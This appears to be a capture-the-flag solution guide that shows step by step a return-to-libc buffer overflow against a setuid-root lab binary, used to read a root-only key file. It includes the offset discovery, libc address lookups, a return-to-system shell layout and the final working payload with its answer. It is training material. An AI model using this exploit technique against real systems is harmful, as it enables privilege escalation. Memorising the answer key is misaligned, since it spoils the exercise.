





# Return Rodeo

*Solution Guide*

## Overview

This challenge requires competitors to perform a return-oriented exploit of a
buffer overflow vulnerability present in a `setuid-root` program to display the
contents of a configuration file readable by `root` only, in the absence of
actual `root` user credentials.

## Question 1

*In the `validate_string` binary's address space, what is the name of the
function immediately preceding `main`?*

This question is intended to be a hint to competitors -- it points them down
an easier path to performing a privilege escalation attack when answering
Question 2.

It is possible to exploit the vulnerable binary to obtain an actual root
*shell* allowing full access to all resources on the `server` machine.
However, we present an easier solution based on exploiting "dead code" left
inside the vulnerable binary by sloppy compilation and lack of optimization.

1. Copy the binary from `server` to the `kali` workstation:

```bash
scp server:/usr/sbin/validate_string .
```

2. Disassemble the binary using `objdump`:

```bash
objdump -D validate_string | less
```

3. Search the `less` output for the `main` function (by typing `/main` for
   the first occurrence, and `n` for any subsequent occurrences) and find
   it here:

```text
08049360 <main>:
8049360:       8d 4c 24 04             lea    0x4(%esp),%ecx
8049364:       83 e4 f0                and    $0xfffffff0,%esp
8049367:       ff 71 fc                push   -0x4(%ecx)
...
```

4. Scroll *back* until the start of the previous function is found:

```text
08049226 <dump_key>:
8049226:       55                      push   %ebp
8049227:       89 e5                   mov    %esp,%ebp
8049229:       53                      push   %ebx
804922a:       83 ec 54                sub    $0x54,%esp
...
```

The answer to Question 1 is: `dump_key`.

## Question 2

*What is the contents of `/etc/key_data` on the `server` system?*

This is the "hard" part of the challenge, though made significantly easier by
the presence of `dump_key` in the binary, once we examine it more carefully.

1. From `kali`, log into the `server` machine via `ssh`.

2. Check `/etc/key_data`:

```bash
ls -al /etc/key_data
   -rw------- 1 root root 13 Aug 14 11:40 /etc/key_data
```

   The file is owned by `root`, and therefore we can't read it from our `user`
   account. Attempts to use `sudo` or `su`, or to `ssh` into `server` directly
   as `root` will fail because the system is not provisioned with administrative
   access to the `user` account.

3. Next, let's find the `validate_string` program mentioned in the challenge
   guide:

```bash
which validate_string
   /usr/sbin/validate_string
```

4. Try to run the program:

```bash
validate_string
   Usage is validate_string <string>
```

5. Run the program with a command line argument:

```bash
validate_string foobar
   validated string: foobar
   Verified.
```

6. Examine the binary file:

```bash
ls -al /usr/sbin/validate_string
   -rwsr-xr-x 1 root root 15160 Aug 11 16:38 /usr/sbin/validate_string
```

   It is owned by `root`, and has the `setuid` bit turned on (hence `rws`
   rather than the more common `rwx` flags). This means that, when run, the
   program is afforded all privileges of the `root` account.

7. Use `checksec` to examine the binary further:

```bash
checksec --file=/usr/sbin/validate_string
   [*] '/usr/sbin/validate_string'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
```

   It is a 32-bit Intel (i386) binary, and has the `NX` (no-execute) flag
   enabled. Thus, CPU opcodes pushed directly to the stack *cannot* be
   executed. So, a "naive" buffer overflow shell script will not work. Instead,
   we'll have to push crafted "return addresses" to the stack to functions that
   already exist in *executable* sections of the binary in the program's
   address space.

8. Check the host machine's process address space randomization setting
   (an additional security option that may prevent predicting viable return
   addresses within the process address space):

```bash
cat /proc/sys/kernel/randomize_va_space
```

   Luckily, address space randomization is turned off, so we can use the
   nominal address and offset values gleaned from the binary and its linked
   libraries.

   Another interesting piece of information is the address at which the system
   library is linked into the `validate_string` process during execution:

```bash
ldd /usr/sbin/validate_string 
   linux-gate.so.1 (0xf7fc7000)
   libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7c00000)
   /lib/ld-linux.so.2 (0xf7fc9000)
```

   The system library (`/lib/i386-linux-gnu/libc.so.6`) is linked into the
   process virtual address space at address `0xf7c00000`.

9. The challenge guide tells us that `validate_string` might suffer from a
   buffer overflow vulnerability. In this step, we test that with varying
   amounts of input. After some trial and error, realize the buffer is likely
   64 bytes in size, and the on-stack caller return address is located at a
   76-byte offset from the start of the vulnerable  buffer:

```bash
gdb -q --args /usr/sbin/validate_string $(python2 -c 'print "A"*76 + "\xef\xbe\xad\xde"')
   Reading symbols from /usr/sbin/validate_string...
   (No debugging symbols found in /usr/sbin/validate_string)
   (gdb) r
   Starting program: /usr/sbin/validate_string AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
   [Thread debugging using libthread_db enabled]
   Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
   validated string: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAﾭ�

   Program received signal SIGSEGV, Segmentation fault.
   0xdeadbeef in ?? ()
```

   Writing `\xef\xbe\xad\xde` at 76 bytes past the beginning of the buffer
   causes the program to attempt to "return" to our fake `0xdeadbeef`address
   (remember that Intel is a Little-Endian architecture). The segfault occurs
   because no actual memory is mapped into the process virtual address space
   at that location, so "returning" there to execute CPU opcodes is not viable.

   Because of the `NX` flag, we cannot inject CPU opcodes ("shellcode") into
   the buffer, and set the "return address" at offset 76 to jump to the start
   of the shellcode. The `NX` flag ensures  any attempt to have the CPU fetch
   opcodes from memory regions *not* marked  as executable (such as the stack,
   in our case) will induce a fault that causes the program to be terminated.

   Our alternative is to find the address of one or more useful functions
   that already exist within the process address space: either as part of
   the `validate_string` binary itself, or as part of the dynamically linked
   system library, `libc.so.6` and overwrite the stack such that control flow
   "returns" to one of them.

   One approach is to return to the `system` library function (which would then
   return to `exit`), and provide a pointer to the string `"/bin/sh"` as the
   argument to `system`. The callee stack, including the overflowing buffer,
   looks like this:

   | Offset (w.r.t. buffer) | Contents | Comment |
   |:-:|:-:|---|
   | 84  | "/bin/sh"  | string pointer, first argument for \<system\> |
   | 80  | \<exit\>   | return address for \<system\> |
   | 76  | \<system\> | return address, originally to \<main\> |
   | ... | ...        | |
   | 64  | "AAAA"     | part of original callee stack frame |
   | 60  | "AAAA"     | last 4 bytes of 64-byte buffer |
   | ... | ...        | |
   | 0   | "AAAA"     | first 4 bytes of 64-byte buffer |

   Finding addresses for `system`, `exit`, and `"/bin/sh"` within `libc.so.6`
   is relatively straightforward:
    
```bash
readelf -all /lib/i386-linux-gnu/libc.so.6 | grep ' system\| exit'
   1567: 0003bc90    33 FUNC    GLOBAL DEFAULT   15 exit@@GLIBC_2.0
   3172: 0004c800    55 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.0

strings -tx /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'
   1b5faa /bin/sh
```

   **Note:** Remember to add `0xf7c00000` (the starting address of the linked
   system library) to `0x3bc90`, `0x4c800`, and `0x1b5faa` to find the absolute
   starting addresses of `exit`, `system`, and`"/bin/sh"`, respectively.

   Unfortunately, the resulting shell will *not* have root privileges, since
   the `system` function will  deliberately drop privileges before launching
   the shell! Gaining a root shell is still possible, but requires significant
   additional effort, and the procedure is therefore not covered in this guide.

10. We need to find a different function to return to as an alternative to
    `system`. This is where the hint from Question 1 becomes important -- recall
    where competitors found the function `dump_key`.    

    On the `kali` machine, open `validate_string` in Ghidra:

    - create a new project (`File -> New Project`), by providing a name,
      but otherwise accepting all the defaults by clicking on `Next`, and
      eventually on `Finish`   
        
    - with the new project highlighted, navigate to `File -> Import File`
      and select the `validate_string` binary; keep clicking `OK` until
      the process completes and the file ends up listed underneath the
      project name  
        
    - double-click on the imported `validate_string` file name, then answer
      `Yes` when prompted to analyze it  
        
    - in the newly opened `Code Browser` window, you will find a list of
      functions belonging to the program on the left, along with assembly
      and de-compiled C corresponding to each selected function (among many
      other features offered by Ghidra, which are beyond the scope of this
      document)    
        

    Notice that `dump_key` is actually never called from anywhere else in
    the code, so it must be "dead code" that hasn't been optimized out during
    compilation.

    Examine the decompiled `dump_key` function:

```c
void dump_key(char *param_1)
{
char *__file;
...
local_54 = 0x6374652f;
...
__file = strcat((char *&local_54, param_1);
local_10 = open(__file, 0);
if (local_10 < 0) {
   perror("can\'t open key file\n");
   exit(1);
}
write(1,"Key file contents: ", 0x13);
...
}
```

   ...and observe that it:

   - takes a `char *` (string) argument
   - prepends something from `local_54` to that string
   - opens a file named after the modified string argument
   - writes out the contents of the opened file to `stdout`

   Finally, hover over `local_54` with the mouse. Notice it is actually a
   string. If the numeric bytes are correctly ordered (based on the underlying
   Little-Endian architecture), in combination with the adjacent `local_50`,
   it spells `"/etc/"`:
   
   
   
   `dump_key` will attempt to open and display the contents of a file named
   `"/etc/<param_1>"`. So, rather than returning to `system` with a string
   argument pointing to `"/bin/sh"`, we should instead return to `dump_key`
   with a string argument pointing to `"key_data"`!

11. From earlier, we know`dump_key` starts at `0x08049226`. Also, the `exit`
    function starts at `0xf7c00000 + 0x3bc90 = 0xf7c3bc90` (`libc` link address
    plus the offset of `exit` within `libc`). In this step, find the address of
    a string *ending* with `"key_data"`.

```bash
strings -tx /lib/i386-linux-gnu/libc.so.6 | grep key_data$
   1d0f4 _thread_db_sizeof_pthread_key_data
```

   `"key_data"` starts 26 bytes into the string we found, so the address we
   are looking for is: `0xf7c00000 + 0x1d0f4 + 26 = 0xf7c1d10e`. We need to
   place these three addresses at the appropriate offset regarding the
   overflowing buffer's start address (in Little-Endian byte order):

```bash
/usr/sbin/validate_string $(python2 -c'print "A"*76 + "\x26\x92\x04\x08\x90\xbc\xc3\xf7\x0e\xd1\xc1\xf7"')
   validated string: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAA&�������
   Key file contents: d3b07384d113
```

   ...and receive the contents of `/etc/key_data`, which is the answer.

   **Note:** This is an infinity-style question, so the answer will differ
   across instances.
